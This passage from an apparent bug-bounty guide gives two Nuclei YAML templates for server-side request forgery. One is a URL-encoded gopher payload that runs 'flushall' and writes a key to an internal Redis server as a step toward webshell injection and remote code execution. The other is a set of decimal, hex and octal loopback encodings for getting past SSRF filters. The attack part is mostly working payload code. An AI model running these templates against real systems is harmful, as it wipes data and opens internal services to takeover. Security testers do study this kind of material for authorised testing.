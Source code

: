 #### 3. **Protocol Smuggling SSRF (Gopher for Redis RCE)**
   - **Use Case**: Exploits non-HTTP protocols like gopher for smuggling commands to internal services (e.g., Redis), leading to RCE. Advanced for database-exposed targets.
   - **Template** (gopher-redis-ssrf.yaml):
     ```yaml
     id: gopher-redis-ssrf
     info:
       name: Gopher Protocol SSRF for Redis RCE
       author: custom-hunter
       severity: critical
       tags: ssrf, gopher, redis, rce
     http:
       - method: GET
         path:
           - "{{BaseURL}}?url=gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2420%0D%0A%0A%0Aevil-payload%0A%0A%0D%0A"
         matchers:
           - type: word
             words:
               - "OK"
               - "CONFIG"
             condition: or
     ```
   - **How It Works**: Uses URL-encoded gopher payload to flush and set Redis keys (e.g., for webshell injection). Test on apps supporting custom protocols; confirm RCE manually. Bounty tip: Chain with subdomain enum for internal Redis instances.

#### 4. **SSRF Bypass with IP Obfuscation**
   - **Use Case**: Bypasses blacklists/whitelists using alternative IP formats (decimal, hex, etc.). Useful against filtered loopback/internal IPs.
   - **Template** (ssrf-bypass-obfuscation.yaml):
     ```yaml
     id: ssrf-bypass-obfuscation
     info:
       name: SSRF Bypass with IP Obfuscation
       author: custom-hunter
       severity: high
       tags: ssrf, bypass, obfuscation
     http:
       - method: GET
         path:
           - "{{BaseURL}}?url=http://2130706433/"  # Decimal 127.0.0.1
           - "{{BaseURL}}?url=http://0x7f000001/"  # Hex 127.0.0.1
           - "{{BaseURL}}?url=http://0177.0.0.1/"  # Octal 127.0.0.1
         matchers:
           - type: word
             words:
               - "localhost"
               - "internal"
             condition: or
           - type: status
             status:
               - 200
               - 302
     ```
   - **How It Works**: Tests obfuscated IPs for loopback access; matches on internal indicators. In bounties, combine with DNS rebinding tools like rbndr for dynamic bypasses.
